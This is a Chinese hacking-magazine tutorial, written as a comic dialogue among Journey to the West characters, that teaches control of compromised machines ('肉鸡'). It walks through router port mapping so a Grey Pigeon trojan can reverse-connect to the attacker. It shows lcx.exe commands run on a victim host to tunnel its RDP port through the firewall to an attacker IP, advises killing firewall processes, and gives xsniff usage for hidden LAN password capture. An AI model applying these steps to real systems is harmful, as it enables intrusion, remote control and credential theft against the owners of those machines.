

图 3

输入默认用户名和密码 admin/admin 后，便看到了如图 4 所示的路由器配置界面。找到左边的“转发规则”按钮单击并选择“虚拟服务器”项，看到如图 5 所示的界面。



图 4



图 5

在这里，填入需要映射的端口，比如 1234 端口，再填入要映射到哪一台机器上。这里填入 192.168.1.123 的 IP 地址，把最后那个“启用”勾上。然后在下方单击“保存”按钮，过一会儿这条规则就生效了。

为了验证是否成功，我们首先在 192.168.1.123 上监听一个 1234 端口，然后再试着访问公网 IP 的 1234 端口，看是否能连上，如图 6。在下面那个 CMD 窗口中我们可以很清楚地看到，来自于 58.49.189.150 的机器连到了 192.168.1.123 的 1234 端口。



图 6

现在，打开灰鸽子的自动上线选项，我们把 IP 文件内容写为 58.49.189.150:8000，再按刚才同样的步骤将 8000 端口也映射到 192.168.1.123 上，如图 7。没过多久，一台可爱的韩国鸡就上线了，如图 8。至此，恭喜八戒顺利通过考核！



图 7

## 小鸡快跑



图 8

“如果是别的路由器或者是木马的话，配置与上面都是大同小异。不过有些路由器可能没有 NAT 的功能，又或者其实路由器本身的 IP 地址也是内网地址，再或者我们没办法控制到路由器，这时候我们就需要借助第三方工具了。谁知道有哪些工具可以做到这一点？”

“我知道！”话音刚落，唐僧又跳了起来，“《黑客 X 档案》2005 年第 9、10 期有一篇文章叫做《内网互控全攻略》，这里提到了很多辅助工具配合不同的木马后门进行内网互控。像内网建站专家这个软件现在还是很实用的。由于以前的文章介绍得很详细了，这里就不再浪费大家的版面。有需要此软件的朋友可以到其官方网站 http://www.sharella.com/ 去下载。回答完毕！”

“师傅耍小聪明，回答不够详细，在这里我做一点补充……”（后续介绍通过免费空间中转、修改域名等方式延长使用，并引出图 9、图 10）。



图 9



图 10

“哇哇，好棒！那以后在内网里也可以玩反弹木马了！”（对话后继续说明端口映射在实战中的用途，以及当目标仅开放 3389 等端口时可借助 lcx.exe 进行数据转发）。

《内网互控全攻略》中作者说了一句“光是可逆的”来比喻网络数据的转发，那么 lcx.exe 就是让数据“逆”着走的利器。在 CMD 中运行 lcx 后可得到参数提示。

```bash
\tan v127.0.0.1 3389
[Usage of Packet Transmit]
<-listen [option] <-slave [option] [-log logfile]
listen <ConnectPort> <TransmitPort>
tran <ConnectPort> <TransmitHost> <TransmitPort>
slave <ConnectHost> <ConnectPort> <TransmitHost> <TransmitPort>
```

第一条和第二条配合使用：本机监听端口并在肉鸡上执行 slave，把肉鸡 3389 转到本机；第三条是本机转向。示例中先在本机执行：`lcx -listen 1234 9833`。



图 11

随后通过反弹后门拿到肉鸡 CMD shell，把 lcx.exe 上传后执行：`lcx -slave 222.218.125.134 1234 127.0.0.1 3389`，使肉鸡主动连回并转发至目标端口。



图 12

此时本地监听端会出现回连，提示可连接本机 9833 端口。使用远程桌面连接 `127.0.0.1:9833` 后，lcx 显示数据收发。



图 13

“表示有很多数据正在通过它传输，而这个时候我们也就成功登录上了肉鸡的 3389 了。”（文末继续引出在局域网内安装嗅探器等后续内容）。

## 小鸡快跑

（Sniffer）的话，很有可能会有非常大的收获！

“等等，猴哥！我不明白，刚才你说过了，肉鸡装有防火墙的，所以你说我们连不上它的 3389 端口，这我理解，可是为什么 lcx.exe 可以穿透防火墙呢？”八戒问道。

“这是因为很多防火墙都只是限制了外部的连接，但是从内部向外的所有连接它都认为是正常并且合理的。而这个 lcx.exe 正是肉鸡主动发起连接我们的，它只是为我们铺平了一条让防火墙允许行走的道路，我们接下来的数据都是通过这个道路来走的，整个过程如图 14 和图 15。”

八戒凝神看了半天，忽然恍然大悟，说道：“知道了知道了，原来是这么回事啊，不过现在很多防火墙在有程序要访问网络的时候都会弹出一个对话框的，那怎么办呢？”

“那些大多是软件防火墙，想办法杀掉这些防火墙的进程或者是停止它们的服务，它们就没什么作为了，等 3389 登录进去之后，再打开防火墙增加一条规则允许我们访问它就是。好了，今天的课就到这里，嗨呀，忘记了今天是情人节，答应了观音姐姐给她送玫瑰的，不好意思，身上的钱都花光了，大家行行好来捐一点。”

只听旁边八戒嘟囔道：“猴哥，你把钱给我留点儿，我还要买花送给我的高妹妹呢？”可当众人找的时候，悟空早跑得没影儿了！

（本文涉及到的工具 lcx.exe，光盘有收录）




### 局域网聊天室之嗅探

不知不觉开学又有一个月了，悟空拿着大家上学期期末考试的卷子在床上沉思：“基本的技术已经教得差不多了，下节课讲些什么好呢？”这时忽然房门大响：“大师兄，大师兄，不得了了！二师兄的电脑被人入侵了！”

悟空一听脸色大变：“带我过去看看，什么时候发生的事情？”沙僧急匆匆地走在前面，头也不回地说道：早上一起来就听到二师兄嘟嚷嚷了，真的很奇怪，而且二师兄刚说自己电脑里的东西被删除得一塌糊涂没多久，就听到师傅也伤心地哭着说自己的电脑也被入侵了，桌面上还留了一个文本文件……

悟空越听脸色越凝重，走到八戒的电脑前一看，发现连八戒最爱的“超级女声”桌面都被改成了“芙蓉姐姐”的画像了。心下不禁起疑，又看到三人互相对视时疑惑的眼神，于是心中明白了：哼，你们这三个小子，欺负俺老孙不懂西方有个“愚人节”是吧！？

清了清喉咙，悟空大声嚷嚷了起来：“不好了，既然你们中有人被入侵了，那么整个局域网都很危险！万一被人安装了嗅探工具，那么我们的隐私都不保了呢！不行不行，为了确保安全，现在我命令被入侵的八戒与师傅老儿格式化所有硬盘，重装系统并且交纳 3000 元罚款，因为你们两个影响了整个呆鸟学堂的声誉和网络秩序！”

职业欠钱

唐僧脸上也一阵红一阵白，嗓子也跟蚊蚋似的：“为、为师也……好几个月，没、没、没有下山化斋了，这个罚款……”

“不行，这是花果山的山规，你们要在这里继续学习就必须遵守我的规定。”悟空继续施压。

“算了算了，大师兄，其实我们刚才和你闹着玩呢，没有被人入侵这回事了。我们经过这么长时间的学习，早就把补丁打得严严实实，杀毒软件也经常更新，再加上防火墙的保护，谁能轻易入侵我们的电脑嘛！不要罚大家的钱了吧……”老实的沙僧第一个揭穿了谜底。

“呵呵，俺老孙早就猜到了，刚才也是吓你们的，算是报仇了，不过正好可以引出这堂课的内容，嗅探（sniffer）！”

“嗅探？这是什么玩意啊？俺鼻子可没那么灵，你找哮天犬去，那是它强项。”八戒又开始犯傻。

悟空早就料到大家第一次听说该名词：“嗅探大家可以理解为，在某一台电脑上安装一个窃听器，然后偷偷地把附近电脑发送的信息截获下来，网管用来分析网络状况，而黑客嘛，则关心里面是否包含一些用户名和密码之类的信息。”

“啊？不管人家有没有打补丁，有没有装防火墙和更新杀毒软件吗？”刚才还对自己电脑的安全系统信心满满的沙僧愣住了。

“是的，这个东西和我们使用的以太网的原理有关。我们的传统以太网是基于共享网络通道的技术组成的，当 A 电脑要发一个数据包给 B 电脑的时候，尽管 C 和 D 也能接收到该数据包，可是 C 和 D 会查看数据包里的目的 MAC 地址是否和它们的，如果与自己的 MAC 地址不符合就会丢弃这个包不予理会……”

## 小鸡快跑

于是不理会我，只有师傅会过来并且仔细听我说什么。

> **小知识：MAC 地址**
>
> MAC 地址也叫物理地址、硬件地址或链路地址，由网络设备制造商写在硬件内部。IP 地址是 32 位，MAC 地址是 48 位（6 字节），通常写成 12 个 16 进制数，每 2 个一组用冒号分隔，例如 `08:00:20:0A:8C:6D`。前 3 组通常代表厂商编号，后 3 组代表设备序列号。Windows XP 可通过 `ipconfig /all` 查看网卡的 MAC 地址。

“嗅探实际上就是拆开了并不是发给自己的数据包并读取里面的信息而已……比较好用的是 `xsniff.exe`。老规矩，将其使用格式翻译如下：”

```bash
USAGE: xsniff <Options>

Options means:
  -tcp              输出 TCP 协议数据包
  -udp              输出 UDP 协议数据包
  -icmp             输出 ICMP 协议数据包
  -pass             筛选用户名和密码信息输出
  -hide             后台运行
  -host             将 IP 地址解析为主机名
  -addr <IP>        仅当源/目的地址与指定 IP 相同时才输出
  -port <Port>      仅当端口匹配时输出
  -log <file>       将结果保存到指定文件
  -asc              将数据包以 ASCII 方式解析
  -hex              以十六进制方式解析数据包

Example:
  xsniff.exe -pass -hide -log pass.log
  xsniff.exe -tcp -info -asc -addr 192.168.1.1
```

“比如现在我在自己的电脑上执行：`xsniff.exe -pass -log c:\log.txt`，然后打开 OUTLOOK 收一封邮件……这些信息也被保存在 `c:\log.txt` 中。”



沙僧听到这神奇的技术，赶紧到自己的机器上试了一下：`xsniff -pass -addr 192.168.0.123 -log c:\wukong.txt`……可是沙僧那边一点动静都没有。

“其实，xsniff.exe 在早期非常常用，因为很多局域网（LAN）使用成本较低的集线器（HUB）连接。HUB 会把收到的数据包复制并广播到所有端口，因此同一局域网内电脑要嗅探彼此信息很容易。”

